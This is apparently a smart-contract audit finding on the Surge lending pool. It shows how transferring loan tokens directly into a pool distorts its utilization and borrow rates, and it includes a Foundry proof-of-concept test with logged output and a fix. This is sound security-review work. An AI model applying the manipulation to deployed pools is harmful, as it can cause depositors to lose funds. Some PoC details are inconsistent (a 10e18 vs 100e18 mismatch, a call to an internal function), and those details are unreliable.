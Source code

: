 SunSec

high

# Manipulation of utilization rates can result in fund loss.

## Summary

## Vulnerability Detail
here is a miscalculation in a pool contract's math in function getUtilizationMantissa(), Attacker can manipulated calculation by sending loantoken directly to pool, resulting miscalculated utilization rate. it can lead to a vulnerability that can resulting in funds loss.

## Impact
1.The user will lose funds due to manipulated utilization rate.
2.Manipulate utilization rate also impact get borrow rate. 

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L188-L190
```solidity
    function getUtilizationMantissa(uint _totalDebt, uint _supplied) internal pure returns (uint) {
        if(_supplied == 0) return 0;
        return _totalDebt * 1e18 / _supplied; //@audit - attacker can control _supplied
    }

```
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L132
```solidity
uint _supplied = _totalDebt + _loanTokenBalance;  // Attacker can manipulate _loanTokenBalance by sending loantoken directly to pool.
```
POC
```solidity
 function testgetUtilizationMantissa() external {
    uint256 amount = 1000e18;
    MockERC20 collateralToken = new MockERC20(0, 18);
    MockERC20 loanToken = new MockERC20(1110e18, 18);
    loanToken.transfer(address(alice), 10e18);
    loanToken.transfer(address(bob), 100e18);
    Pool pool = factory.deploySurgePool(
      IERC20(address(collateralToken)),
      IERC20(address(loanToken)),
      1e18,
      0.8e18,
      1e15,
      1e15,
      0.1e18,
      0.4e18,
      0.6e18
    );

    loanToken.approve(address(pool), amount);

    pool.deposit(1e18);

    uint256 _totalDebt = 1e18;
    emit log_named_uint("totalDebt", _totalDebt);

    vm.prank(bob);
    loanToken.transfer(address(pool), 100e18); // Attacker manipulated calculation by sending 10e18 loantoken directly to pool.

    uint256 _loanTokenBalance = loanToken.balanceOf(address(pool));
    uint256 _supplied = _totalDebt + _loanTokenBalance;
    emit log_named_uint("_supplied", _supplied);
    emit log_named_uint(
      "getUtilizationMantissa",
      pool.getUtilizationMantissa(1e18, _supplied)
    );
  }

[PASS] testgetUtilizationMantissa() (gas: 3328925)
Logs:
  totalDebt: 1000000000000000000
  _supplied: 102000000000000000000
  getUtilizationMantissa: 9803921568627450  //@audit -expect 500000000000000000

```
Manipulate utilization rate also impact get borrow rate. 
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L175-L181
```solidity
    function getBorrowRateMantissa(uint _util, uint _surgeMantissa, uint _minRateMantissa, uint _surgeRateMantissa, uint _maxRateMantissa) internal pure returns (uint) {
        if(_util <= _surgeMantissa) {
            return (_surgeRateMantissa - _minRateMantissa) * 1e18 * _util / _surgeMantissa / 1e18 + _minRateMantissa; // @audit - _util controllable
        } else {
            uint excessUtil = _util - _surgeMantissa;  //@audit - _util controllable
            return (_maxRateMantissa - _surgeRateMantissa) * 1e18 * excessUtil / (1e18 - _surgeMantissa) / 1e18 + _surgeRateMantissa; // can manipulate borrow rate.
        }
    }
```
## Tool used
Manual Review

## Recommendation
Using total loantoken deposited as _loanTokenBalance instead of loantokan balance in the pool.